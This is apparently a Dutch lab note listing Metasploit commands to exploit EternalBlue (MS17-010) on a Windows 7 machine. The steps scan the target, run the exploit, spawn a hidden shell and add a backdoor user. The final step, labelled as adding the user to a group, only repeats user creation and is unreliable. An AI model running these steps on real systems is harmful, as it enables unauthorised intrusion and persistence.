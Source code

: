 ```yaml
---
title: EternalBlue Windows 7
tags: [Import-6cdc]
created: '2023-02-23T10:31:20.000Z'
modified: '2023-03-21T10:48:47.860Z'
---
```


```
Commando Port scan:
└─$ sudo nmap -P 172.16.0.33
```

```
Commando openen msfconsole:
└─$ sudo msfconsole
```

```
Commando laden van exploid:
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
```

```
Commando toevoegen van RHOST:
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS IP
```

```
Commando starten van exploid:
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 
```

![[Pasted image 20230223112706.png]]

> [!WARNING] >
>Het volgende gedeelte word uitgevoerd in de CMD van de windows 7
>

```
Commando binnen treden van de CMD:
meterpreter > execute -f cmd.exe -H -c -i
```

```
Commando aanmaken van nieuwe gebruiker:
C:\$Recycle.Bin>net user /add hacker hacker
```

```
Commando toevoegen gebruiker aan een groep:
C:\$Recycle.Bin>net user /add "gebruikersnaam" "Wachtwoord"
```
